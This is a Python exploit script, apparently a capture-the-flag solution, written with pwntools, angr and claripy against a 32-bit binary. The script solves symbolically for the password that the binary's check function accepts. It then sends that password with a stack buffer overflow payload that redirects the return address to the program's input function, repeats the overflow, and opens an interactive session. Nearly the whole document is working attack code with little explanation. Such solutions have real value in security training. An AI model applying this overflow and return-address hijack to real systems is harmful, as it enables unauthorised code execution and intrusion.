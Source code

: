 ```py

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

import angr
import claripy

p = angr.Project(exe.path)

password_chars = [claripy.BVS("byte_%d" % i, 8) for i in range(0x10)]
password = claripy.Concat(*password_chars + [claripy.BVV(b'\0')])
password_addr = 0

s = p.factory.call_state(exe.sym['check'], password_addr,
        add_options=set.union(
            angr.options.unicorn,
            {
                angr.options.LAZY_SOLVES,
                angr.options.ZERO_FILL_UNCONSTRAINED_MEMORY,
                angr.options.ZERO_FILL_UNCONSTRAINED_REGISTERS,
            }))

s.memory.store(password_addr, password)

for c in password_chars:
    s.solver.add(c < 0x7f)
    s.solver.add(c > 0x20)

sim = p.factory.simgr(s)

sim.explore(find=0x0804984f, avoid=0x08049856)

password_concrete = bytes.fromhex(hex(sim.found[0].solver.eval(password))[2:])
print(password_concrete[:-1].decode())



io = start()

io.sendlineafter(
        b"Enter the passphrase: ",
        password_concrete + flat({0x18 + 0x4 - 1: exe.sym['input']})
        )

for i in range(5):
    io.sendline(flat({0x18 + 0x4: exe.sym['input']}))

io.interactive()
```